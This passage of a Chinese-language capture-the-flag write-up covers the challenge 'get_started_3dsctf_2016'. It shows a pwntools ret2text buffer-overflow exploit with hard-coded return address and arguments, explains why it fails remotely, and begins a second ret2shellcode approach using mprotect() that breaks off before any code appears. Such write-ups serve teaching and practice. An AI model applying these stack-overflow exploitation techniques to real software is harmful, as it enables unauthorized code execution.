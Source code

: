 ## 解法1：ret2text

32位程序通过栈传参，故构造exp如下：

```
from pwn import *

payload = b'A'*0x38 + p32(0x80489A0) + p32(0xdeadbeef) + p32(0x308CD64F) + p32(0x195719D1)

p = process('./get_started_3dsctf_2016')
p.sendline(payload)
p.interactive() 
```

不过很明显，出题人的环境很明显有丶小问题🔨🔨🔨，远程跑不通这个payload

![](img/3354eef097bbd7149086470eded2a3a0.png)

问题出在哪呢？该程序尝试打开的是`flag.txt`文件，但是平台所自动生成的是`flag`文件，故此种方法**无法获得flag**

我们尝试寻找第二种解法

## 解法2：ret2shellcode

首先我们发现在程序中编入了大量的函数，其中就包括`mprotect()`，可以修改指定内存地址的权限
